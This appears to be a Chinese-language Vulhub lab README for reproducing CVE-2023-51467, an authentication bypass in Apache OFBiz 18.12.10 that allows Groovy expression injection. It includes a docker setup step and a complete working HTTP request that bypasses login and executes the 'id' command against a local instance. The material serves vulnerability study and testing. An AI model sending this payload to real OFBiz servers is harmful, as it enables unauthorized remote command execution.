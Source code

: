 # Apache OFBiz 鉴权绕过导致命令执行（CVE-2023-51467）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于[CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070)的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

参考连接：

- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>
- <https://xz.aliyun.com/t/13211>
- <https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](1.png)
